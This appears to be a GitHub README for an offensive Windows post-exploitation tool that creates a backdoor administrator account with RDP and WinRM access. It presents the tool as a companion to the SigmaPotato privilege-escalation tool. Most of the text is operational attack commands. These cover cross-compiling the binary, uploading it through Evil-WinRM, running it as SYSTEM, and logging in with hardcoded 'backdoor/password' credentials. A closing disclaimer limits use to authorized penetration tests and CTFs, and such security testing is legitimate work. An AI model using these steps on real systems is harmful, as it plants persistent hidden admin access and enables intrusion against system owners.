 # Backdoor User Creation Tool

A simple, reliable tool for creating backdoor administrator accounts with RDP and WinRM access during penetration tests and CTF competitions.

## Overview

This tool was created to provide a more reliable alternative to SigmaPotato's built-in `--revshell` function, which doesn't always work as expected. Instead, this tool creates a persistent backdoor administrator account that guarantees both WinRM and RDP access to compromised Windows systems.

## Features

- Creates a backdoor user account with a simple, easy-to-remember password
- Adds the user to the Administrators group
- Ensures the user is added to the Remote Desktop Users group
- Adds the user to the Remote Management Users group for WinRM access
- Enables RDP connections on the target system
- Opens the firewall for RDP access
- Configures Terminal Services to start automatically

## Usage with SigmaPotato

1. Compile the backdoor user creation tool:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

2. Upload the executable to the target system (e.g., to C:\Windows\Temp):

```powershell
*Evil-WinRM* PS C:\> upload adduser.exe C:\Windows\Temp\adduser.exe
```

3. Execute with SigmaPotato to run with SYSTEM privileges:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> ./SigmaPotato.exe "cmd /c C:\Windows\Temp\adduser.exe"
```

4. Verify the backdoor user was created successfully:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> net user backdoor
*Evil-WinRM* PS C:\Windows\Temp> net localgroup "Remote Desktop Users"
```

5. Connect using RDP or WinRM:

```bash
# Connect via RDP
xfreerdp /u:backdoor /p:password /v:target-ip

# Connect via WinRM
evil-winrm -i target-ip -u backdoor -p password
```

## SigmaPotato Integration

This tool is designed to complement [SigmaPotato](https://github.com/JustRCE/SigmaPotato), a privilege escalation tool for Windows.

## Warning

This tool is intended for use in authorized penetration tests and CTF competitions only. Use in unauthorized systems is illegal.

## License

MIT
